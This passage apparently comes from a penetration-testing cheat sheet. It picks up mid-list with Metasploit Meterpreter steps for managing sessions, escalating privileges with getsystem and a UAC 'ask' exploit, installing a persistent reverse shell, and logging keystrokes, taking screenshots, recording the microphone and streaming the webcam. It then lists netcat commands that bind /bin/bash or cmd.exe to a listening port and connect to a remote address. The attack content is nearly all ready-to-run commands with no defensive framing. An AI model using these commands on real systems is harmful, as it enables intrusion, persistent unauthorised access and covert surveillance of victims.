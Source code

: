 		7) Make the session go background
			~background
		
		8) Go back to the started session
		- View started sessions:
			~sessions -l
		- Enter into a session:
			~sessions -i 5
		- Set the session for a command:
			~set session 5

		9) Elevate your priviledges
		- Show commands to elevate priviledges:		
			~use post/windows
			~use post/windows/escalate
			~use post/windows/escalate/getsystem
		
		- Ask user for admin priviledges:
			~use exploit/windows/local/ask
			~exploit
			~getsystem
			
		10) Make Persistent Reverse Shell
			~run persistence -h
			~run persistence -X
			
		11) Exploit more!!!
		- Keyboard Commands:
			~keyscan_dump
			~keyscan_start
			~keyscan_stop
		
		- Interface Commands:
			~screenshot
			~record_mic
		
		- Webcam Commands:
			~webcam_chat
			~webcam_list
			~webcam_snap
			~webcam_stream
		
	* Using NetCat
		- See the possible options
			~ncat -h
		- Executing a command
			~ncat -v -l -p 8888 -e /bin/bash
			...on Windows:
			~nc -v -l -n -p 8888 -e cmd.exe
		- Connect to an IP address
			~ncat 192.168.1.102 8888
			...w/ encryption:
			~ncat --ssl 192.168.1.102 8888
			
		- Listen to a Port
		1) See which processes use a specific port
			~lsof -i :8888
		2) Kill the open processes
			~kill <PID1> <PID2>
		3) Chatting (listen to a port)
			~ncat -l -p 8888
		4) Encrypted Chatting
			~ncat --ssl -l -p 8888
		5) Multiple Encrypted Chatting
			~ncat --ssl -l -k -p 8888
		
	